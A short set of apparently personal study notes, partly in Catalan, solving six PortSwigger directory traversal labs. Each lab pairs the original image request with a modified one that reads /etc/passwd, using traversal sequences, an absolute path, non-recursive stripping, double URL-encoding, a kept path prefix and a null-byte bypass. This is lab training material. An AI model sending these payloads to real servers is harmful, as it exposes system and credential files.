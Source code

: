 # DIRECTORY TRAVERSAL LABS: https://portswigger.net/web-security/file-path-traversal

## **Lab 1**: File path traversal, simple case

    - TENIM: GET /image?filename=16.jpg HTTP/1.1
    - POSEM: GET /image?filename=../../../../../../../../etc/passwd HTTP/1.1

## **Lab 2**: File path traversal, traversal sequences blocked with absolute path bypass

    - TENIM: GET /image?filename=30.jpg HTTP/1.1
    - POSEM: GET /image?filename=/etc/passwd HTTP/1.

## **Lab 3**: File path traversal, traversal sequences stripped non-recursively

    - TENIM: GET /image?filename=40.jpg HTTP/1.1
    - POSEM: GET /image?filename=....//....//....//....//....//....//....//etc/passwd HTTP/1.1

## **Lab 4**: File path traversal, traversal sequences stripped with superfluous URL-decode

    - TENIM: GET /image?filename=11.jpg HTTP/1.1
        FEM: GET /image?filename=../etc/passwd HTTP/1.1 i la barra '/' li fem un URL DECODER
        (Burpsuite: seleccionem la / >  click dret > convert selection > URL > URL Encode All Characters)
        ARA TENIM: GET /image?filename=..%2fetc/passwd HTTP/1.1
        Fem el mateix amb el '%'.
        ARA TENIM: GET /image?filename=..%252fetc/passwd HTTP/1.1
    - POSEM: GET /image?filename=..%252f..%252f..%252f..%252f..%252f..%252fetc/passwd HTTP/1.1
## **Lab 5**: File path traversal, validation of start of path

    - TENIM: GET /image?filename=/var/www/images/21.jpg HTTP/1.1
    - POSEM: GET /image?filename=/var/www/images/../../../../../../../etc/passwd HTTP/1.1

## **Lab 6**: File path traversal, validation of file extension with null byte bypass

    - TENIM: GET /image?filename=20.jpg HTTP/1.1
    - POSEM: GET /image?filename=../../../../../../../etc/passwd%00.jpg HTTP/1.1 (concepte de 'null byte')